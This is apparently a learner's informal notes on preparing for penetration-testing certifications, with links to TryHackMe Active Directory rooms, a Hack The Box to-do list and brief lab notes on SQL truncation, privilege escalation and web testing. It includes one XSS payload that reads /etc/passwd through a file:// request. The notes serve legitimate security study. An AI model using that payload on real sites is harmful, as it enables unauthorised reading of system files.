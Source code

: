 https://tryhackme.com/network/throwback

https://tryhackme.com/room/adenumeration

https://tryhackme.com/room/breachingad

# things to do in tryhack me

    hackthebox finish all easy boxes and do some pro labs (last is more for fun)

    make sure to be able to go though every box on TJ nulls list

    Tiberius priv escalation course (Linux and windows)

    make sure to write good notes and writeups (also publish them on git pages for further reference)

    read though a pdf and video course similar to oscp

    have a decent Kali machine setup and prepared


what is tiberius privilege escalation course

# Hack the box book

SQL truncation attack , adding things to the row whicjh is longer than what is required and adding a row 

things one can try in a site:

```

    Looking for SQLi in all the forms.
    Looking for XSS in all the forms.
    Looking for any kind of XSRF vulnerabilities in the various GETs and POSTs.

```

XSS for file read

```js
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>

```

after getting in we can get ssh key

and root had a logrotate exploit





